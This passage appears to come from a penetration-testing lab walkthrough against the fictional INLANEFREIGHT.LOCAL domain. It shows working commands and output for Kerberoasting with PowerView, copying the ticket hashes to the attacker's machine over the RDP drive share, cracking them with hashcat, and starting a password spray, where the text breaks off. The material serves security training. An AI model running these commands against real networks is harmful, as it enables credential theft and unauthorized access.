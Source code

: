 <p>To cover all our bases, let's check if there are any Kerberoastable users. We can do this via Proxychains using <code>GetUserSPNs.py</code> or <code>PowerView</code>. In our RDP session, we'll load PowerView and enumerate Service Principal Name (SPN) accounts.</p>
<pre><code class="language-powershell-session">PS C:\DotNetNuke\Portals\0&gt; Import-Module .\PowerView.ps1
PS C:\DotNetNuke\Portals\0&gt; Get-DomainUser * -SPN |Select samaccountname

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
</code></pre>
<p>There are quite a few. Let's export these to a CSV file for offline processing.</p>
<pre><code class="language-powershell-session">PS C:\DotNetNuke\Portals\0&gt; Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainUser] Searching for non-null service principal names
VERBOSE: [Get-DomainUser] filter string: (&amp;(samAccountType=805306368)(|(samAccountName=*))(servicePrincipalName=*))
</code></pre>
<p>We can download this file via the RDP drive redirection we set up earlier: <code>copy .\ilfreight_spns.csv \\Tsclient\Home</code>. Open up the .csv file using LibreOffice Calc or Excel and pull out the hashes and add them to a file. We can now run them through Hashcat to see if we can crack any and, if so, if they are for privileged accounts.</p>
<pre><code class="language-shell-session">[!bash!]$ hashcat -m 13100 ilfreight_spns /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

&lt;SNIP&gt;

$krb5tgs$23$*backupjob$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local*$31b8f218c848bd851df59641a45&lt;SNIP&gt;:&lt;redacted&gt;
</code></pre>
<p>One hash cracks, but checking in BloodHound, the account does not seem to be helpful to us. We can still note down another finding for <code>Weak Kerberos Authentication Configuration (Kerberoasting)</code> and move on.</p>
<hr/>
<h2>Password Spraying</h2>
<p>Another lateral movement technique worth exploring is Password Spraying. We can use <a href="https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1">DomainPasswordSpray.ps1</a> or the Windows version of Kerbrute from the DEV01 host or use Kerbrute from our attack host via Proxychains (all worth playing around with).</p>
<pre><code class="language-powershell-session">PS C:\DotNetNuke\Portals\0&gt; Invoke-DomainPasswordSpray -Password Welcome1
